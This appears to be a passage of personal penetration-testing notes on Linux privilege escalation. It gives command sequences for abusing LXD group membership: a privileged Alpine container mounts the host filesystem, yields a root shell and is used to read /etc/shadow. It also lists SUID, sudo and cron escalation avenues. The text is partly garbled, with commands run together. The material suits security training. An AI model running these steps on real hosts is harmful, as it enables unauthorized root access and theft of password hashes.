     ```
    nano /etc/passwd
    ```

## **LXD PE Exploitation**

*   **You Will Build an Machine in attacker machine & Transfare it** [**lxd-Alpine-Builder github**](https://www.notion.so/d0b35ef691164c96b9a7aca28a4aef11?pvs=21)

    ```
    git clone [https://github.com/saghul/lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder)cd [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder)./build-alpine#To Fix Errors----------------#mkdir /rootfs/usr/share/alpine-mirrors;cd /rootfs/usr/share/alpine-mirrors;echo "http://alpine.mirror.wearetriple.com" >> MIRRORS.txt
    ```
* **You Will get File like alpine…12.tar.gz**
* **use any file Transfare Technique To Transfare this file to Vectim machine**
* **In Vectim machine run this to mount host files in LXD alpine Container t**
*   **Building an LXD container**

    ```
    lxd init#hit enter For alllxc listlxc image listlxc image import ./alpine...........12.tar.gz --alias hackedlxc init hacked hacked-container -c security.privileged=true [Start bin bash on machine as root]lxc config device add hacked-container mydevice disk source=/ path=/mnt/hacked recursive=truelxc start hacked-containerlxc exec hacked-container /bin/sh
    ```
*   **Now You are root in this container \[You Can Edit|show any file like etc shadow mounted from host ]**

    ```
    cd /mnt/hackedcat /etc/shadow
    ```

## **Binaries Exploitation**

**This Techniques Applied on**

* **sudo rights Binaries \[NO PASSWD]**
*   **SUID-SGID Binaries**

    \*\*`chmod u+s [file.sh](http://file.sh)`**any user Execute it as a owner user**`chmod g+s [file.sh](http://file.sh)`\*\*any user Execute it as a owner Group

    If Owner User is root you can run it with root Privs
*   **auto executed with cronjob,systemctl**

    auto executed By the root continiuously without any interaction
* **sub executable \[find it with examining main program`strings <binarypath>`or`cat <binary path>`and Found it Call another Executable]**
* **Local Network services run as root**
* **processes run as a root**

**Executables can be**

* fil.sh
* file \[Bash Script]
* file.AppImage
* program \[compiled from C]
